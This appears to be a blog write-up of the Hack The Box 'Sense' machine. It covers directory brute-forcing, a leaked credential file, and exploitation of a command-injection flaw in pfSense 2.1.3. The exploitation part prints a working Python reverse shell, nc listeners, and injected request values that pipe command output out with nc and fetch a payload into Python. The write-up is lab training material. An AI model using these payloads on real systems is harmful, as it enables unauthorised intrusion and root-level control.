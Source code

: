 ```yaml
---
layout: single
title: Sense Writeup
date: '2020-01-15 07:32:44'
tags:
- hack-the-box
classes: wide
sidebar:
  - title: "Difficulty: Easy"
    image: /images/posts/2020/2020-01-15-sense-writeup/sense.png
    text: "https://app.hackthebox.eu/machines/111"
typora-copy-images-to: ../../images/posts/2020/${filename}/
---
```

An interesting box that teaches the value of thorough enumeration.…

## Enumeration

Starting with Autorecon we find that only ports 80 & 443 are open. While waiting for the web tests to complete I went to port 80 in Firefox and found I was redirected to HTTPS and that the system seemed to be a PFSense firewall.

Googling the default PFsense credentials and trying them didn't turn anything up, and some other common username/password combinations also failed. Given this is basically a security appliance it wasn't much of a surprise that the usual enumeration techniques that Autorecon runs didn't turn up anything.

Looking at ExploitDB for PFsense vulnerabilities turns up quite a few, however they generally need credentials.

At this point it's time to run some more intensive enumeration, specifically try and brute force directories and files in the webtree. Autorecon runs a light touch brute force using the Web-Content/common.txt list from [Seclists](https://github.com/danielmiessler/SecLists), but this won't always find what is needed. I started another `gobuster` with a more intensive list, looking for some common files that can be left around on a web server:

```bash
gobuster dir -u https://10.10.10.60:443/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -k -l -s "200,204,301,302,307,403" -x "txt,html,php,asp,aspx,bak"
```
Given the number of extensions this took a couple of hours but turned up a couple of interesting files, including one called system-users.txt:
```
    ####Support ticket###
    
    Please create the following user
    
    username: Rohit
    password: company defaults
```
If we then try and login as Rohit:pfsense (which is the default PFsense password) it fails, but trying rohit:pfsense we manage to login.

## Exploitation

On logging in we can see that PFsense is running the 2.1.3 release. Exploitdb lists [this](https://www.exploit-db.com/exploits/43560) vulnerability which seems relevant.

To test it out we can start up Burp Suite and then set our browser to send traffic through the Burp Suite proxy. If we browse to the affected URL we can capture the request and send it to the Repeater component so we can edit it:

![Screenshot-from-2020-01-14-16-00-02](../../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-00-02.png)

From the CVE details we know that you can specify arbitrary shell commands by using a semicolon. We can test this is working, by sending a sleep command:


![Screenshot-from-2020-01-14-16-01-19](../../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-01-19.png)

If this takes 10+ seconds to return, we have command execution. As this is an HTTP request data needs to be URL Encoded, hence the + instead of a space.

Due to the way the vulnerability works, nothing is outputted to stdout and so won't appear in the results of the web request. However we can pipe the results to `nc`, which is handily installed in this case.

If we send `database=queues;whoami|nc+<ip_address>+<port>` with a listener on our machine, we can get the output of the command.

![Screenshot-from-2020-01-14-16-07-39](../../images/posts/2020/2020-01-15-sense-writeup/Screenshot-from-2020-01-14-16-07-39.png)

So, running as root, that's handy as we won't need to do any privilege escalation.

### Putting it all together

So, now we know we can run remote commands, lets see about getting a shell.

First we take a common Python reverse [shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and tidy it up into a script:
```python
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.2",9876))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
```
and save this as `exploit`.

We then start a listener on port 1234 and tell it to send the contents of the `exploit` file whenever anything connects:
```bash
    nc -lvp 1234 < exploit
```
We start another listener to catch the connections spawned by the reverse shell
```bash
    nc -lvp 9876
```
And finally we use Burp Suite to send our exploit:

`database=queues;nc+10.10.14.2+1234|python`

Which will send any data received from the connection to port 1234 (our Python reverse shell) to the Python interpreter. We need to `ctrl-c` the connection to port 1234 but after doing this we catch a root shell on 9876 which makes it trivial to grab the flags.

